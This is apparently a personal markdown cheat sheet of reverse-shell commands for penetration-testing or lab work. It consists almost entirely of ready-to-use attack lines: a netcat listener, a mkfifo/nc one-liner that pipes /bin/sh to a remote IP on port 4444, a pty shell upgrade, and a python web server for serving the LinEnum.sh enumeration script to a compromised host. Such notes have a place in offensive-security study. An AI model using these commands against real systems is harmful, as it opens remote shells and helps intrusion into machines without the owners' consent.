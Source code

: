# Reverse Shell

## From Remote Code Execution:

Spawn Bash:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

---

Listener System:

```
nc -lnvp 4444
```

Connect to Netcat:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.129 4444 >/tmp/f
```


(Make sure to change ip to one on ip a)

Host LinEnum.sh:

```
python -m SimpleHTTPServer port
```

```
10.10.15.129/LinEnum.sh
```


## Resources:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
